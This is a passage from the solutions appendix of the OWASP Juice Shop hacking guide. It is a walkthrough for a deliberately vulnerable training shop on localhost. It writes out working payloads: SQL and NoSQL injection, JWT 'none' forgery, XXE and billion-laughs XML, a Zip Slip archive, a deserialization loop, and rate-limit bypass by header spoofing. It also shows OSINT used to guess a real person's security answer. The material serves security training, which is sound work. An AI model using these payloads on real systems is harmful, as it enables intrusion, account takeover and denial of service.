    [Enforce a redirect to a page you are not supposed to redirect to](#enforce-a-redirect-to-a-page-you-are-not-supposed-to-redirect-to)
    first!
15. Combining that redirect exploit with the forgotten `testDecal` and
    its susceptibility to path traversal will allow you to craft a URL
    like
    <http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2F..%2Fredirect%3Fto%3Dhttps:%2F%2Fplacekitten.com%2Fg%2F400%2F500%3Fx%3Dhttps:%2F%2Fgithub.com%2Fbkimminich%2Fjuice-shop>
    where the most difficult part is to get the URL encoding just right
    to bypass the redirect whitelist and still get the intended image
    returned cross-domain.

    

### Dumpster dive the Internet for a leaked password and log in to the original user account it belongs to

1. Visit <https://stackoverflow.com/questions/tagged/access-log> to find
   all questions tagged with `access-log` in this popular platform
2. The list of questions should not be excessive and one mentioning a
   familiar URL path might immediately stand out

   
3. Visit
   <https://stackoverflow.com/questions/57061271/less-verbose-access-logs-using-expressjs-morgan>
   to find more unambiguous URL paths from the Juice Shop in it

   
4. Follow the link to PasteBin that is mentioned below the log file
   snippet in _"(see https://pastebin.com/4U1V1UjU for more)"_
5. On <https://pastebin.com/4U1V1UjU> search for `password` to find log
   entries that might help with the ultimate challenge goal
6. You will find one particularly interesting `GET` request that has
   been logged as `161.194.17.103 - - [27/Jan/2019:11:18:35 +0000] "GET
   /rest/user/change-password?current=0Y8rMnww$*9VFYE%C2%A759-!Fg1L6t&6lB&new=sjss22%@%E2%82%AC55jaJasj!.k&repeat=sjss22%@%E2%82%AC55jaJasj!.k8
   HTTP/1.1" 401 39 "http://localhost:3000/" "Mozilla/5.0 (Linux;
   Android 8.1.0; Nexus 5X) AppleWebKit/537.36 (KHTML, like Gecko)
   Chrome/71.0.3578.99 Mobile Safari/537.36"`
7. The mismatched `new` and `repeat` parameters and the return code of
   `401` indicate that this password change failed. This means the
   password could still be the current one of
   `0Y8rMnww$*9VFYE%C2%A759-!Fg1L6t&6lB`!
8. This isn't the exact clear text password, though. It was logged as
   part of a URL, so it needs to be URL-decoded into
   `0Y8rMnww$*9VFYE§59-!Fg1L6t&6lB` first.
9. Not knowing which user it belongs to, you can now
   * either perform a _Password Spraying_ attack by trying to log in
     with the password for all known user emails, e.g. from
     [Access the administration section of the store](#access-the-administration-section-of-the-store)
   * hash the known password with `MD5` and compare it to the password
     hashes harvested from
     [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
10. Either way you will conclude that the password belongs to
    `J12934@juice-sh.op` so using this as _Email_ and
    `0Y8rMnww$*9VFYE§59-!Fg1L6t&6lB` as _Password_ on
    <http://localhost:3000/#/login> will solve the challenge

🤡 Did you notice that one of the next requests of `161.194.17.103` in
the leaked access log went to <http://localhost:3000/api/Complaints> and
returned a `201 Created` HTTP status code? It seems the user
successfully complained, but eventually didn't bother or was too
frustrated to finish what he originally planned to do.

### Perform an unwanted information disclosure by accessing data cross-domain

1. Find a request to the ```/rest/user/whoami``` API endpoint. Notice
   that you can remove the "Authorization" header and it still works.
   

2. Add a URL parameter called "callback". This will cause the API to
   return the content as a JavaScript fragment (JSONP) rather than just
   a standard JSON object.
   

### Log in with the (non-existing) accountant without ever registering that user

1. Go to <http://localhost:3000/#/login> and try logging in with _Email_
   `'` and any _Password_ while observing the Browser DevTools network
   tab.
2. You will notice the SQL query for the login in the error being
   thrown: `"sql": "SELECT * FROM Users WHERE email = ''' AND password =
   '339df5aeae5bc6ae557491e02619c5dd' AND deletedAt IS NULL"`
3. Solve
   [Exfiltrate the entire DB schema definition via SQL Injection](#exfiltrate-the-entire-db-schema-definition-via-sql-injection)
   to learn the exact column names of the `Users` table.
4. Prepare a `UNION SELECT` payload what will a) ensure there is no
   result from the original query and b) will add the needed user
   on-the-fly using static values in the query.
5. Log in with _Email_ `' UNION SELECT * FROM (SELECT 15 as 'id', '' as
   'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as
   'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4'
   as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as
   'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16
   14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00'
   as 'updatedAt', null as 'deletedAt')--`
6. This will trick the application backend into handing out a valid JWT
   token and thus establishing a user session.

### Retrieve the language file that never made it into production

1. Monitoring the HTTP calls to the backend when switching languages
   tells you how the translations are loaded:
   * <http://localhost:3000/i18n/en.json>
   * <http://localhost:3000/i18n/de_DE.json>
   * <http://localhost:3000/i18n/nl_NL.json>
   * <http://localhost:3000/i18n/zh_CN.json>
   * <http://localhost:3000/i18n/zh_HK.json>
   * etc.
2. It is obvious the language files are stored with the official
   _locale_ as name using underscore notation.
3. Nonetheless, even brute forcing all thinkable locale codes (`aa_AA`,
   `ab_AA`, ..., `zz_ZY`, `zz_ZZ`) would still **not** solve the
   challenge.
4. The hidden language is _Klingon_ which is represented by a
   three-letter code `tlh` with the dummy country code `AA`.
5. Request <http://localhost:3000/i18n/tlh_AA.json> to solve the
   challenge. majQa'!

Instead of expanding your brute force pattern (which is not a very
obvious decision to make) you can more easily find the solution to this
challenge by investigating which languages are supported in the Juice
Shop and how [the translations](../part3/translation.md) are managed.
This will quickly bring you over to
<https://crowdin.com/project/owasp-juice-shop> which immediately
spoilers _Klingon_ as a supported language. Hovering over the
corresponding flag will eventually spoiler the language code `tlh_AA`.



> The Klingon language was originally created to add realism to a race
> of fictional aliens who inhabit the world of Star Trek, an American
> television and movie franchise. Although Klingons themselves have
> never existed, the Klingon language is real. It has developed from
> gibberish to a usable means of communication, complete with its own
> vocabulary, grammar, figures of speech, and even slang and regional
> dialects. Today it is spoken by humans all over the world, in many
> contexts.[^3]

### Solve the 2FA challenge for user "wurstbrot"

1. [Access the administration section of the store](#access-the-administration-section-of-the-store)
   while inspecting network traffic.
2. You will learn the email address of the user in question is
   unsurprisingly `wurstbrot@juice-sh.op`.
3. You will also notice that there is no information about any user's
   2FA configuration in the responses from `/api/Users`.
4. Solve
   [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
   and keep its final attack payload ready.
5. Change the one of the `null`s in payload to hopefully find a column
   that contains the secret key for the 2FA setup:
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fa,null,null,null,null%20from%20users-->
     yields a `500` error with `SequelizeDatabaseError: SQLITE_ERROR: no
     such column: 2fa`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fakey,null,null,null,null%20from%20users-->
     fails with `no such column: 2fakey`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fasecret,null,null,null,null%20from%20users-->
     fails with `no such column: 2fasecret`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totp,null,null,null,null%20from%20users-->
     also fails with `no such column: totp`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpkey,null,null,null,null%20from%20users-->
     fails again yielding `no such column: totpkey`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users-->
     finally succeeds with a `200` response as this column exists!
6. In the response from
   <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users-->
   find the entry of user `wurstbrot@juice-sh.op` with
   `"image":"IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH"` whereas all other users
   have `"image":""` set.
7. Using your favorite 2FA application (e.g.
   [Google Authenticator](https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2))
   create a new entry, but instead of scanning any QR code type in the
   key `IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH` manually.
8. Go to <http:localhost:3000/#/login> and use SQL Injection to log in
   with `wurstbrot@juice-sh.op'--` as _Username_ and anything as
   _Password_.
9. You will be presented with the _Two Factor Authentication_ input
   screen where you now have to type in the 6-digit code currently
   displayed on your 2FA app.

   
   
10. After clicking _Log in_ you are logged in and the challenge will be
    marked as solved!

### Forge an essentially unsigned JWT token

1. Log in as any user to receive a valid JWT in the `Authorization`
   header.
2. Copy the JWT (i.e. everything after `Bearer ` in the `Authorization`
   header) and decode it.
3. Under the `payload` property, change the `email` attribute in the
   JSON to `jwtn3d@juice-sh.op`.
4. Change the value of the `alg` property in the `header` part from
   `HS256` to `none`.
5. Encode the `header` to `base64url`. Similarly, encode the `payload`
   to `base64url`. *base64url makes it URL safe*, a regular Base64
   encode might not work!
6. Join the two strings obtained above with a `.` (dot symbol) and add a
   `.` at the end of the obtained string. So, effectively it becomes
   `base64url(header).base64url(payload).`
7. Change the `Authorization` header of a subsequent request to the
   retrieved JWT (prefixed with `Bearer ` as before) and submit the
   request. Alternatively you can set the `token` cookie to the JWT
   which be used to populate any future request with that header.

### Exploit OAuth 2.0 to log in with the Chief Information Security Officer's user account

1. Visit <http://localhost:3000/#/login> and enter some known
   credentials.
2. Tick the _Remember me_ checkbox and _Log in_.
3. Inspecting the application cookies shows a new `email` cookie storing
   the plaintext email address.
4. _Log out_ and go back to <http://localhost:3000/#/login>. Make sure
   _Remember me_ is still ticked.
5. Using `ciso@juice-sh.op` as _Email_ and anything as _Password_
   perform a failed login attempt.
6. Inspecting the `email` cookie shows it was set to `ciso@juice-sh.op`
   even when login failed.
7. Inspecting any request being sent from now on you will notice a new
   custom HTTP header `X-User-Email: ciso@juice-sh.op`.
8. Now visit <http://localhost:3000/#/login> again, but this time choose
   the _Log in with Google_ button to log in with your own Google
   account.
9. Visit <http://localhost:3000/#/contact> and check the _Author_ field
   to be surprised that you are logged in as `ciso@juice-sh.op` instead
   with your Google email address, because
   [the OAuth integration for login will accept the 'X-User-Email' header as gospel regardless of the account that just logged in](https://incognitjoe.github.io/hacking-the-juice-shop.html).

If you do not own a Google account to log in with or are running the
Juice Shop on a hostname that is not recognized, you can still solve
this challenge by logging in regularly but add `"oauth": true` to the
JSON payload `POST`ed to <http://localhost:3000/rest/user/login>.

### All your orders are belong to us

1. Open the network tab of your browser's DevTools.
2. Visit <http://localhost:3000/#/track-order> and search for `x` to
   witness a `GET` request <http://localhost:3000/rest/track-order/x>
   being sent returning `{"status":"success","data":[{"orderId":"x"}]}`.
3. Search for `'` (single quote) as _Order ID_ now.
   <http://localhost:3000/rest/track-order/'> will throw an error

   
4. Searching for `''` (two single quotes) as _Order ID_ now will let
   <http://localhost:3000/rest/track-order/''> throw an `Unexpected
   string` error instead of the previous `Invalid or unexpected token`.
5. While not stated anywhere in the error messages, it can be assumed
   with some MongoDB background that the query probably resembles
   something like `{ $where: "property === '" + payload + "'" }`.
6. The required `payload` for the challenge needs to make sure all data
   is matched while squeezing itself into the query in a non-breaking
   way.
7. Search for `' || true || '` resulting in
   <http://localhost:3000/rest/track-order/'%20%7C%7C%20true%20%7C%7C%20'>
   which will in fact query and return all orders from the MarsDB.

### Perform a Remote Code Execution that would keep a less hardened application busy forever

1. By manual or automated URL discovery you can find a
   [Swagger](https://swagger.io) API documentation hosted at
   <http://localhost:3000/api-docs> which describes the B2B API.

   
2. This API allows to `POST` orders where the order lines can be sent as
   JSON objects (`orderLines`) but also as a String (`orderLinesData`).
3. The given example for `orderLinesDate` indicates that this String
   might be allowed to contain arbitrary JSON: `[{"productId":
   12,"quantity": 10000,"customerReference": ["PO0000001.2",
   "SM20180105|042"],"couponCode": "pes[Bh.u*t"},...]`

   
4. Click the _Try it out_ button and without changing anything click
   _Execute_ to see if and how the API is working. This will give you a
   `401` error saying `No Authorization header was found`.
5. Go back to the application, log in as any user and copy your token
   from the `Authorization Bearer` header using your browser's DevTools.
6. Back at <http://localhost:3000/api-docs/#/Order/post_orders> click
   _Authorize_ and paste your token into the `Value` field.
7. Click _Try it out_ and _Execute_ to see a successful `200` response.
8. An insecure JSON deserialization would execute any function call
   defined within the JSON String, so a possible payload for a DoS
   attack would be an endless loop. Replace the example code with
   `{"orderLinesData": "(function dos() { while(true); })()"}` in the
   _Request Body_ field. Click _Execute_.
9. The server should eventually respond with a `200` after roughly 2
   seconds, because that is defined as a timeout so you do not really
   DoS your Juice Shop server.
10. If your request successfully bumped into the infinite loop
    protection, the challenge is marked as solved.

### Reset the password of Bjoern's internal account via the Forgot Password mechanism

1. Trying to find out who "Bjoern" might be should quickly lead you to
   the OWASP Juice Shop project leader and author of this ebook.
2. Visit https://www.facebook.com/bjoern.kimminich to immediately learn
   that he is from the town of _Uetersen_ in Germany.
3. Visit <https://gist.github.com/9045923> or
   <https://pastebin.com/JL5E0RfX> to find the source code of a (truly
   amazing) game Bjoern wrote in Turbo Pascal in 1995 (when he was a
   teenager) to learn his phone number area code of _04122_ which
   belongs to Uetersen. This is sufficient proof that you in fact are on
   the right track.
4. http://www.geopostcodes.com/Uetersen will tell you that Uetersen has
   ZIP code _25436_.
5. Visit http://localhost:3000/#/forgot-password and provide
   `bjoern@juice-sh.op` as your _Email_.
6. In the subsequently appearing form, provide `25436` as _Your
   ZIP/postal code when you were a teenager?_
7. Type and _New Password_ and matching _Repeat New Password_ followed
   by hitting _Change_ to **not solve** this challenge.
8. Bjoern added some obscurity to his security answer by using an
   uncommon variant of the pre-unification format of
   [postal codes in Germany](#postal-codes-in-germany).
9. Visit http://www.alte-postleitzahlen.de/uetersen to learn that
   Uetersen's old ZIP code was `W-2082`. This would not work as an
   answer either. Bjoern used the written out variation: `West-2082`.
10. Change the answer to _Your ZIP/postal code when you were a
    teenager?_ into `West-2082` and click _Change_ again to finally
    solve this challenge.

#### Postal codes in Germany

> Postal codes in Germany, Postleitzahl (plural Postleitzahlen,
> abbreviated to PLZ; literally "postal routing number"), since 1 July
> 1993 consist of five digits. The first two digits indicate the wider
> area, the last three digits the postal district.
>
> Before reunification, both the Federal Republic of Germany (FRG) and
> the German Democratic Republic (GDR) used four-digit codes. Under a
> transitional arrangement following reunification, between 1989 and
> 1993 postal codes in the west were prefixed with 'W', e.g.: W-1000
> \[Berlin\] 30 (postal districts in western cities were separate from
> the postal code) and those in the east with 'O' (for Ost), e.g.:
> O-1xxx Berlin.[^4]

### Reset Morty's password via the Forgot Password mechanism

1. Trying to find out who "Morty" might be should _eventually_ lead you
   to _Morty Smith_ as the most likely user identity

   
2. Visit http://rickandmorty.wikia.com/wiki/Morty and skim through the
   [Family](http://rickandmorty.wikia.com/wiki/Morty#Family) section
3. It tells you that Morty had a dog named _Snuffles_ which also goes by
   the alias of _Snowball_ for a while.
4. Visit http://localhost:3000/#/forgot-password and provide
   `morty@juice-sh.op` as your _Email_
5. Create a word list of all mutations (including typical
   "leet-speak"-variations!) of the strings `snuffles` and `snowball`
   using only
   * lower case (`a-z`)
   * upper case (`A-Z`)
   * and digit characters (`0-9`)
6. Write a script that iterates over the word list and sends well-formed
   requests to `http://localhost:3000/rest/user/reset-password`. A rate
   limiting mechanism will prevent you from sending more than 100
   requests within 5 minutes, severely hampering your brute force
   attack.
7. Change your script so that it provides a different
   `X-Forwarded-For`-header in each request, as this takes precedence
   over the client IP in determining the origin of a request.
8. Rerun your script you will notice at some point that the answer to
   the security question is `5N0wb41L` and the challenge is marked as
   solved.
9. Feel free to cancel the script execution at this point.

📕: If you do not want to write your own script for this challenge,
take a look at
[juice-shop-mortys-question-brute-force.py](https://gist.github.com/philly-vanilly/70cd34a7686e4bb75b08d3caa1f6a820)
which was kindly published as a Gist on GitHub by
[philly-vanilly](https://github.com/philly-vanilly).

> Leet (or "1337"), also known as eleet or leetspeak, is a system of
> modified spellings and verbiage used primarily on the Internet for
> many phonetic languages. It uses some alphabetic characters to replace
> others in ways thdev at play on the similarity of their glyphs via
> reflection or other resemblance. Additionally, it modifies certain
> words based on a system of suffixes and alternative meanings.
>
> The term "leet" is derived from the word elite. The leet lexicon
> involves a specialized form of symbolic writing. For example, leet
> spellings of the word leet include 1337 and l33t; eleet may be spelled
> 31337 or 3l33t. Leet may also be considered a substitution cipher,
> although many dialects or linguistic varieties exist in different
> online communities.[^5]

### Deprive the shop of earnings by downloading the blueprint for one of its products

1. The description of the _OWASP Juice Shop Logo (3D-printed)_ product
   indicates that this product might actually have kind of a blueprint
2. Download the product image from
   http://localhost:3000/public/images/products/3d_keychain.jpg and view
   its [Exif metadata](https://en.wikipedia.org/wiki/Exif)

   
3. Researching the camera model entry _OpenSCAD_ reveals that this is a
   program to create 3D models, which works with `.stl` files
4. As no further hint on the blueprint filename or anything is given, a
   lucky guess or brute force attack is your only choice
5. Download http://localhost:3000/public/images/products/JuiceShop.stl
   to solve this challenge
6. This model will actually allow you to 3D-print your own OWASP Juice
   Shop logo models!

   
   

The official place to retrieve this and other media or artwork files
from the Juice Shop (and other OWASP projects or chapters) is
<https://github.com/OWASP/owasp-swag>. There you can not only find the
3D model leaked from this challenge, but also
[one that comes with a dedicated hole to mount it on your keyring](https://github.com/OWASP/owasp-swag/blob/master/projects/juice-shop/3d/JuiceShop_KeyChain.stl)!

### Inform the development team about a danger to some of their credentials

1. Solve
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)
2. The `package.json.bak` contains not only runtime dependencies but
   also development dependencies under the `devDependencies` section.
3. Go through the list of `devDependencies` and perform research on
   vulnerabilities in them which would allow a Software Supply Chain
   Attack.
4. For the `eslint-scope` module you will learn about one such incident
   exactly in the pinned version `3.7.2`, e.g.
   <https://status.npmjs.org/incidents/dn7c1fgrr7ng> or
   <https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes>
5. Both above links refer to the original report of this vulnerability
   on GitHub: <https://github.com/eslint/eslint-scope/issues/39>
6. Visit <http://localhost:3000/#/contact>
7. Submit your feedback with
   `https://github.com/eslint/eslint-scope/issues/39` in the comment to
   solve this challenge

### Inform the shop about a typosquatting imposter that dug itself deep into the frontend

1. Request <http://localhost:3000/3rdpartylicenses.txt> to retrieve the
   3rd party license list generated by Angular CLI by default
2. Combing through the list of modules you will come across
   `anuglar2-qrcode` which openly reveals its intent on
   https://www.npmjs.com/package/anuglar2-qrcode

   
3. Visit <http://localhost:3000/#/contact>
4. Submit your feedback with `anuglar2-qrcode` in the comment to solve
   this challenge

You can probably imagine that the typosquatted `anuglar2-qrcode` would be
_a lot harder_ to distinguish from the original repository
`ngx-bar-rating`, if it where not marked with the _THIS IS **NOT** THE
MODULE YOU ARE LOOKING FOR!_-warning at the very top. Below you can see
the original `ngx-bar-rating` module page on NPM:



### Give the server something to chew on for quite a while

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. On Linux, prepare an XML file which defines and uses an external
   entity which will require a long time to resolve: `<!ENTITY xxe
   SYSTEM "file:///dev/random">`. On Windows there is no similar feature
   to retrieve randomness from the OS via an "endless" file, so the
   attack vector has to be completely different. A _quadratic blowup_
   attack works fine, consisting of a single large entity like `<!ENTITY
   a "dosdosdosdos...dos"`> which is replicated very often as in
   `<foo>&a;&a;&a;&a;&a;...&a;</foo>`.
3. Upload this file through the _File Complaint_ dialog and observe how
   the request processing takes up to 2 seconds and then times out (to
   prevent you from actually DoS'ing your application) but still solving
   the challenge.

_You might feel tempted to try the classic **Billion laughs attack** but
will quickly notice that the XML parser is hardened against it, giving
you a status `410` HTTP error saying `Detected an entity reference
loop`._

> In computer security, a billion laughs attack is a type of
> denial-of-service (DoS) attack which is aimed at parsers of XML
> documents.
>
> It is also referred to as an XML bomb or as an exponential entity
> expansion attack.
>
> The example attack consists of defining 10 entities, each defined as
> consisting of 10 of the previous entity, with the document consisting
> of a single instance of the largest entity, which expands to one
> billion copies of the first entity.
>
> In the most frequently cited example, the first entity is the string
> "lol", hence the name "billion laughs". The amount of computer memory
> used would likely exceed that available to the process parsing the XML
> (it certainly would have at the time the vulnerability was first
> reported).
>
> While the original form of the attack was aimed specifically at XML
> parsers, the term may be applicable to similar subjects as well.
>
> The problem was first reported as early as 2002, but began to be
> widely addressed in 2008.
>
> Defenses against this kind of attack include capping the memory
> allocated in an individual parser if loss of the document is
> acceptable, or treating entities symbolically and expanding them
> lazily only when (and to the extent) their content is to be used.[^6]
>
> ```xml
> <?xml version="1.0"?>
> <!DOCTYPE lolz [
> <!ENTITY lol "lol">
> <!ELEMENT lolz (#PCDATA)>
> <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
> <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
> <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
> <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
> <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
> <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
> <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
> <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
> <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
> ]>
> <lolz>&lol9;</lolz>
> ```

## ⭐⭐⭐⭐⭐⭐ Challenges

### Overwrite the Legal Information file

1. Combing through the updates of the
   [@owasp_juiceshop](https://twitter.com/owasp_juiceshop) Twitter
   account you will notice
   <https://twitter.com/owasp_juiceshop/status/1107781073575002112>.

   
2. Researching ZIP-based vulnerabilities should also yield
   [Zip Slip](https://snyk.io/research/zip-slip-vulnerability) which
   exploits directory traversal filenames in file archives.
3. As the Legal Information file you need to override lives in
   <http://localhost:3000/ftp/legal.md> and uploading files via _File
   Complaint_ does not give any feedback where they are stored, an
   iterative directory traversal approach is recommended.
4. Prepare a ZIP file (on Linux) with `zip exploit.zip ../ftp/legal.md`.
5. Log in as any user at <http://localhost:3000/#/login>.
6. Click _Contact Us_ and _Complain?_ to get to the _File Complaint_
   screen at <http://localhost:3000/#/complain>.
7. Type in any message and attach your ZIP file, then click _Submit_.
8. The challenge will _not_ be solved. Repeat steps 5-7 but with `zip
   exploit.zip ../../ftp/legal.md` as the payload.
9. The challenge will be marked as solved! When you visit
   <http://localhost:3000/ftp/legal.md> you will see your overwritten
   Legal Information!

> Zip Slip is a form of directory traversal that can be exploited by
> extracting files from an archive. The premise of the directory
> traversal vulnerability is that an attacker can gain access to parts
> of the file system outside of the target folder in which they should
> reside. The attacker can then overwrite executable files and either
> invoke them remotely or wait for the system or user to call them, thus
> achieving remote command execution on the victim’s machine. The
> vulnerability can also cause damage by overwriting configuration files
> or other sensitive resources, and can be exploited on both client
> (user) machines and servers. [^8]

### Forge a coupon code that gives you a discount of at least 80%

For this challenge there are actually two distinct _solution paths_ that
are both viable. These will be explained separately as they utilize
totally different attack styles.

#### _Pattern analysis_ solution path

1. Solve challenge
   [Access a salesman's forgotten backup file](#access-a-salesmans-forgotten-backup-file)
   to get the `coupons_2013.md.bak` file with old coupon codes which you
   find listed below.
2. There is an obvious pattern in the last characters, as the first
   eleven codes end with `gC7sn` and the last with `gC7ss`.
3. You can rightfully speculate that the last five characters represent
   the actual discount value. The change in the last character for the
   12th code comes from a different (probably higher) discount in
   December! 🎅
4. Check the official Juice Shop Twitter account for a valid coupon
   code: <https://twitter.com/owasp_juiceshop>
5. At the time of this writing - January 2017 - the broadcasted coupon
   was `n<Mibh.u)v` promising a 50% discount.
6. Assuming that the discount value is encoded in the last 2-5
   characters of the code, you could now start a trial-end-error or
   brute force attack generating codes and try redeeming them on the
   _Your Basket_ page. At some point you will probably hit one that
   gives 80% or more discount.
7. You need to _Checkout_ after redeeming your code to solve the
   challenge.

```
 n<MibgC7sn
 mNYS#gC7sn
 o*IVigC7sn
 k#pDlgC7sn
 o*I]pgC7sn
 n(XRvgC7sn
 n(XLtgC7sn
 k#*AfgC7sn
 q:<IqgC7sn
 pEw8ogC7sn
 pes[BgC7sn
 l}6D$gC7ss
```

#### _Reverse engineering_ solution path

1. Going through the dependencies mentioned in `package.json.bak` you
   can speculate that at least one of them could be involved in the
   coupon code generation.
2. Narrowing the dependencies down to crypto or hashing libraries you
   would end up with `hashids`, `jsonwebtoken` and `z85` as candidates.
3. It turns out that `z85`
   ([ZeroMQ Base-85 Encoding](https://rfc.zeromq.org/spec:32/Z85/)) was
   chosen as the coupon code-creation algorithm.
4. Visit <https://www.npmjs.com/package/z85> and check the _Dependents_
   tab:

   
5. If you have Node.js installed locally run `npm install -g z85-cli` to
   install <https://www.npmjs.com/package/z85-cli> - a simple command
   line interface for `z85`:

   
6. Check the official Juice Shop Twitter account
   <https://twitter.com/owasp_juiceshop> for a valid coupon code. At the
   time of this writing - January 2017 - the broadcasted coupon was
   `n<Mibh.u)v` promising a 50% discount.

   
7. Decrypting this code with `z85 -d "n<Mibh.u)v"` returns `JAN17-50`
8. Encrypt a code valid for the current month with 80% or more discount,
   e.g. `z85 -e JAN17-80` which yields `n<Mibh.v0y`.
9. Enter and redeem the generated code on the _Your Basket_ page and
   _Checkout_ to solve the challenge.

#### _Cloud computing_ solution path

1. From February 2019 onward the monthly coupon tweets begin with a
   robot face emoji in square brackets. Maybe the Juice Shop sales team
   forgot to send coupons too often so that the process was automated at
   some point?

   
2. Some Internet research will bring you to the
   [NPM module `juicy-coupon-bot`](https://www.npmjs.com/package/juicy-coupon-bot)
   and its associated GitHub repository
   <https://github.com/bkimminich/juicy-coupon-bot>. ℹ️ _As this is
   not part of the Juice Shop repo itself and it is publicly accessible,
   analyzing this repository is **not** considered cheating!_
3. Open the `.travis.yml` to see how the bot's CI/CD process is set up.
   You can also look at the job results and logs at
   <https://travis-ci.org/bkimminich/juicy-coupon-bot>.
4. You will realize that there is a `deploy` step that is only executed
   when the build was triggered by a (monthly) cron job on Travis-CI.
   This is probably the origin of the monthly tweets! But where does the
   bot get its coupon code from?
5. Read the code of the `juicy-coupon-bot` carefully and optionally try
   to play with it locally after installing it via `npm i -g
   juicy-coupon-bot`. You can learn a few things that way:
   * Running `juicy-coupon-bot` locally will
     [prepare the text for a tweet with a coupon code](https://github.com/bkimminich/juicy-coupon-bot/blob/master/lib/statusText.js)
     for the current month and with a discount between 10% and 40% and
     log it to your console.
   * The coupon code is actually retrieved
     [via an AWS API call](https://5j4d1u7jhf.execute-api.eu-west-1.amazonaws.com/default/JuicyCouponFunc)
     which returns valid coupons with different discounts and their
     expiration date as JSON, e.g.
     `{"discountCodes":{"10%":"mNYS#iv#%t","20%":"mNYS#iw00u","30%":"mNYS#iw03v","40%":"mNYS#iw06w"},"expiryDate":"2019-02-28"}`
6. You could collect this data for several months and basically fall
   back to the
   [Pattern analysis solution path](#pattern-analysis-solution-path)
   only with more recent coupons.
7. For an easier and more satisfying victory over this challenge, take a
   look at the commit history of the GitHub repository
   <https://github.com/bkimminich/juicy-coupon-bot>, though.
8. Going back in time a bit, you will learn that the coupon retrieval
   via AWS API backed by a Lambda function was not the original
   implementation. Commit
   [`fde2003`](https://github.com/bkimminich/juicy-coupon-bot/commit/fde2003535598ad3c4edc17ad9ffcdc9c589d3c5)
   introduced the API call, replacing the previous programmatic creation
   of a coupon code.

   
9. You now have learned the coupon format and that it is `z85` encoded.
   You can now either manipulate your local clone of the "pre-`fde2003`
   version" of the `juicy-coupon-bot` or fall back to the last part of
   the
   [Reverse engineering solution path](#reverse-engineering-solution-path)
   where you find and install `z85-cli` to conveniently create your own
   80%+ coupon locally.

### Solve challenge #999

1. Solve any other challenge
2. Inspect the cookies in your browser to find a `continueCode` cookie
3. The `package.json.bak` contains the library used for generating these
   continue codes: `hashid`
4. Visit <http://hashids.org/> to get some information about the
   mechanism
5. Follow the link labeled _check out the demo_
   (<http://codepen.io/ivanakimov/pen/bNmExm>)
6. The Juice Shop simply uses the example salt (`this is my salt`) and
   also the default character range
   (`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890`)
   from that demo page. It just uses a minimum length of `60` instead of
   `8` for the resulting hash.
7. Encoding the value `999` with the demo (see code below) gives you the
   hash result
   `69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkM6Ae9M7k2rK63YpqQLPjnlb5V5LvDj`
8. Send a `PUT` request to the URL
   <http://localhost:3000/rest/continue-code/apply/69OxrZ8aJEgxONZyWoz1Dw4BvXmRGkM6Ae9M7k2rK63YpqQLPjnlb5V5LvDj>
   to solve this challenge.

```javascript
   var hashids = new Hashids("this is my salt", 60, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890");

  var id = hashids.encode(999);
  var numbers = hashids.decode(id);

  $("#input").text("["+numbers.join(", ")+"]");
  $("#output").text(id);
```

### Forge an almost properly RSA-signed JWT token

1. Use your favorite forced directory browsing tool (or incredible
   guessing luck) to identify <http://localhost:3000/encryptionkeys> as
   having directory listing enabled.
2. Download the application's public JWT key from
   <http://localhost:3000/encryptionkeys/jwt.pub>

   
3. Download and install the
   [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload)
4. In the _BApp Store_ tab under the _Extender_ tab within Burp Suite
   find and install the
   [JSON Web Token Attacker](https://portswigger.net/bappstore/82d6c60490b540369d6d5d01822bdf61)
   extension (aka _JOSEPH_)

   
5. Send any captured request that has an `Authorization: Bearer` token
   to Burp's _Repeater_.
6. Once in _Repeater_, click the _JWS_ tab, then the _Payload_ tab
   beneath and modify the email parameter to be `rsa_lord@juice-sh.op`.

   
